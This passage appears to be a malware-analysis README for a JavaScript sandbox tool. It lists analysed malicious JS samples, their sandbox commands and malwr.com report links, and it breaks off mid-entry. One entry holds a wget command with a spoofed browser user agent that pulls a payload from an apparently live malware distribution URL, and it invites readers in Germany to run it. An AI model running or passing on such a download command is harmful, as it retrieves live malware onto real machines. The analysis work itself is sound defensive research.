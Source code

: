 This one is a strange one. 

I had to modify the malware and increase deobfuscating XOR key named 'XHZGH' by 2 
to make the deobfuscation work. Maybe it targets German systems only, where "TypeError" translates to "Eingabefehler" and 
'e' = ASCII 101 is less then 'g' = ASCII 103 exactly by 2.  

Compare the **original** and **modified** version of the malware. 

Also the payload finally downloaded has 0 length. Maybe the server uses IP geolocations. I cannot verify as I'm not in Germany.
Anybody from Germany may try:

    wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko" http://instalseds.bid/admin.php?f=403


**malwr.com:** https://malwr.com/analysis/Y2NjN2I4NTlkZjIyNDFkYzljZDZkNDY3OWIzMmRlYjY/

**Source code original:** malware/20161002/ac5705ba4eeb9295b162073cdccf64b9a0a14fd3bf933694e083aab2e65820e9.js.orig

**Source code modified:** malware/20161002/ac5705ba4eeb9295b162073cdccf64b9a0a14fd3bf933694e083aab2e65820e9.js

**Command:** 

     node jailme.js --down=y malware/20161002/ac5705ba4eeb9295b162073cdccf64b9a0a14fd3bf933694e083aab2e65820e9.js

**Output:** [malware/20161002/ac5705ba4eeb9295b162073cdccf64b9a0a14fd3bf933694e083aab2e65820e9.out](malware/20161002/ac5705ba4eeb9295b162073cdccf64b9a0a14fd3bf933694e083aab2e65820e9.out)


## Norri.js ##

**malwr.com:** https://malwr.com/analysis/Mjc0ZjUyMjZhYzg4NDJlYmEwNzBkMTAxODA5NGYwZGM/

**Source code:** malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.js

**Command:** 

     node jailme.js --down=y malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.js

**Output:** [malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.out](malware/20160929/cb7fc381f6f7600ca0060764ae117482cae3a0fa02db4467604a55c57d069124.out)

## ORDER-10455.js ##

This one has very long and nice deobfuscation. Same like ORDER-19586.js

**malwr.com:** https://malwr.com/analysis/NDU1ZDA4NmY3ZGUyNDczZjg0ODU2OGZiZTMxNjA5NzE/

**Source code:** malware/20160929/416e32e1b22ecb8f360ff841b87d77ac9450fda24458ce4e70abb35ff4d242a3.js

**Command:** 
